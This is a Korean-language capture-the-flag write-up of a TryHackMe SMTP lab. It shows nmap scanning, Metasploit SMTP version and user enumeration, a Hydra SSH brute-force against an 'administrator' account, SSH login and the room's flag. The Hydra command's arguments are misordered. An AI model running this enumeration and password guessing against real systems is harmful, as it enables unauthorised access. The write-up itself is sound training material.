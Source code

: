 # TryHackMe - Network Services 2 (SMTP)

> 이 실습에서는 TryHackMe의 Network Services 2 실습을 기반으로, SMTP 프로토콜을 활용해 사용자 정보를 수집하고, 이를 바탕으로 SSH 접근까지 시도해보았습니다.

---

## 1. 실습 개요

- **타깃 머신 IP**: `10.10.71.13`
- **공격 머신 환경**: Kali Linux 2023.4
- **실습 일자**: 2025-04-15
- **사용 도구**:
  - `nmap`: 포트 및 서비스 정보 수집
  - `Metasploit Framework`: SMTP 서비스 정보 및 사용자 확인
  - `hydra`: SSH Brute-force 공격 도구
  - `ssh`: 시스템 로그인

---

## 2. 정보 수집

### 2.1 포트 스캔

```bash
nmap -A -vv -T4 -p- 10.10.71.13 -oN nmap_scan.txt
```

| 포트 | 서비스 | 설명 |
|--------|-----------|------------------------------------------|
| 22/tcp | ssh       | OpenSSH 7.6p1 (Ubuntu Linux)             |
| 25/tcp | smtp      | Postfix ESMTP                            |

- 상세 스캔 결과: [nmap_scan.txt](./nmap_scan.txt) 파일 참조

---

## 3. 실습 과정

### 3.1 Metasploit 콘솔 실행

- 설명: SMTP 관련 스캐닝 및 사용자 식별 모듈을 활용하기 위해 Metasploit Framework 을 사용 하였습니다.

```bash
msfconsole
```

--- 

### 3.2 SMTP 버전 확인 (Metasploit smtp_version)

- 설명: 메일 서버에서 실행 중인 SMTP 소프트웨어(예: Postfix)의 버전 정보를 식별합니다. 이를 통해 해당 버전의 알려진 취약점 존재 여부를 확인할 수 있습니다.

```bash
use auxiliary/scanner/smtp/smtp_version
set rhosts 10.10.71.13
run
```
![SMTP 버전 확인](./screenshots/smtp_version_check.png)

---

### 3.3 사용자명 리스트 다운로드

```bash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
```

- 설명: Metasploit의 `smtp_enum` 모듈에서 사용할 사용자 이름 리스트를 외부 GitHub 저장소에서 다운로드하여 나의 터미널에 저장합니다. 후에 이 파일을 `/usr/share/wordlists/top-usernames-shortlist.txt` 경로로 저장 했습니다. 이를 통해 실제 존재하는 SMTP 계정을 식별하는 데 활용할 수 있습니다.

![GitHub 사용자 이름 리스트 다운로드](./screenshots/github_user_name.png)

- wordlist로 경로 변경
![사용자 이름 리스트 경로 변경](./screenshots/relocate_file.png)

---

### 3.4 사용자 확인 (Metasploit smtp_enum)

- 설명: SMTP 서버사용자 이름의 존재 여부를 확인하기 위해 `smtp_enum` 모듈을 사용 했습니다. `smtp_enum` 모듈은 워드리스트 내 계정명을 하나씩 대입해 유효한 사용자 정보를 수집합니다.

```bash
use auxiliary/scanner/smtp/smtp_enum
set rhosts 10.10.71.13
set user_file /usr/share/wordlists/top-usernames-shortlist.txt
run
```
![SMTP 사용자 확인](./screenshots/smtp_enum_check.png)

---

### 3.5 Hydra를 이용한 SSH Brute-force 공격

- 설명: 확인된 사용자 `administrator` 계정에 대해 rockyou.txt 사전을 활용하여 SSH 로그인에 사용할 비밀번호를 대입하며 무차별 대입(Brute-force) 공격을 수행합니다.

```bash
hydra -l administrator -P 10.10.71.13 /usr/share/wordlists/rockyou.txt ssh
```

- 상세 Hydra 결과: [administrator_password.txt](./administrator_password.txt) 파일 참조

---

### 3.6 SSH 접속

- 설명: Hydra를 통해 획득한 비밀번호를 이용해 administrator 사용자로 SSH 접속을 시도합니다. 후에 `smtp.txt` 파일을 열어 플래그를 확보 했습니다.

```bash
ssh administrator@10.10.71.13
```
- 획득한 플래그: `THM{who_knew_email_servers_were_c00l?}`

![SSH 접속](./screenshots/smtp_ssh_login.png)

---

## 4. 배운 점

- Metasploit의 `smtp_enum` 모듈은 사용자 이름을 수집하는 데 유용하며, 취약하게 설정된 SMTP 서버에서 계정 정보를 노출할 수 있다.
- 단일 정보 수집 단계에서 계정명 식별과 이후 Brute-force 공격을 통해 시스템에 접근할 수 있는 실질적인 시나리오를 확인했다.
- 이메일 서비스 또한 공격 표면이 될 수 있으며, 기본 설정이 보안상 위험할 수 있다는 점을 체감했다.
- 본 실습을 통해 Metasploit이 제공하는 다양한 모듈의 유용성과 강력함을 다시 한 번 확인할 수 있었다.
